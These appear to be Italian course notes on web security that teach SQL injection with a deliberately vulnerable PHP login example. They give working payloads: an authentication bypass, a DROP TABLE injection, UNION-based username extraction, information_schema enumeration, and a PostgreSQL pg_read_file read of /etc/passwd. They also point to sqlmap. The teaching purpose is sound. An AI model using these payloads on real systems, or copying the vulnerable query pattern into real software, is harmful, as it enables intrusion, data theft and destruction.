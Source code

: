 ```yaml
---
id: '17'
lezione: "20231123"
title: "Web security - 2"
author: "Sam. K."
keywords: ["sql injection","sql","php", "sql injection payloads", "sql map"]
---
```


<style>
    strong{
        background-color:#faf43e;
        color: black;
        padding:0.1rem 0.2rem;
        border-radius:5px;
    }
</style>

# Web security - 2
```sh
docker exec -it <container_name> /bin/sh # per accedere al container con terminale bash
```

## SQL injection
SQL injection è una tecnica di attacco web che permette di bypassare controllo degli accessi, estrarre informazioni dal database oppure di compromettere il database attraverso una iniezione del codice SQL maligno. 

![SQL injection](assets/images/SQL-Injection.jpg)

Alcuni esempi:    

Questo codice può essere usato per esempio se il server fa un controllo del password come 

```php
$password = $_POST['password'];

$check = query("SELECT * FROM login_tb WHERE password='$password'");

if($check>0) echo 'OK';
```
```sql
-- se uso il seguente input come password, posso bypassare il check
' OR 1=1; -- 
```
```php
query("SELECT * FROM login_tb WHERE password='' OR 1=1; --");
```
Cioè il risultato sarà sempre `TRUE` perché `1=1` è sempre vera, inoltre con `--` viene commentato tutto il resto della riga.

"`--`" SQL comment

Altri esempio:
```sql
SELECT * FROM Products WHERE ProductID = 15; DROP TABLE Suppliers;
SELECT * FROM Orders WHERE OrderID = 16 AND 1=1;
SELECT * FROM Users WHERE Login = 'Admin' -- ' AND Password=' '
```

```sql
SELECT productid,name,price FROM products WHERE Name=' *' UNION SELECT 1, string_agg(username,','), 1 FROM users*
```

Una funzione molto usata di postgres è `string_agg('colonna',' ,')` string aggregate restituisce i risultati della query aggregando tutto in una riga con entry separate con una virgola, l'attaccante pensa sempre che ci sia un `LIMIT 1`.


```sql
select * somethin,somethin from table_name UNION select something,somethin from table_name;
```

`UNION` deve avere delle colonne che hanno la stessa grandezza

```sql
select * from <table_name> order by <col_number>
```

`UNION SELECT 1,NULL,NULL;` per scoprire se la prima colonna è numerico ignorando = `NULL` la colonna 2 e 3, se questa query va a buon fine significa che è una colonna di tipo numerico (intero). Con questo modo si può scoprire che il tipo di colonna oppure se esiste una certa colonna.

## Un modo per scoprire tutte le tabelle e colonne del database.

```sql
select column_name from information_schema.columns  -- all columns 
select table_name from information_schema.tables -- all tables
```

`information_schema` normalmente è protetta con un controllo degli accessi.

[SQL injection payloads](https://github.com/payloadbox/sql-injection-payload-list) una lista di payloads.

```sql
UNION SELECT null,version(),null FROM pg_stat_user_tables -- stampa informazioni tecniche del database

union select null,pg_is_dir('/bin'),null from pg_stat_user_tables -- stampa i file della directory

union select null,pg_read_file('etc/passwd'),null from pg_stat_user_tables -- legge il file
```
## SQLmap
SQLmap un tool per automatizzare il testing di sql injection con una serie di payload
[SQL map](https://github.com/sqlmapproject/sqlmap)

```sh
python3 sqlmap.py -u "url"
```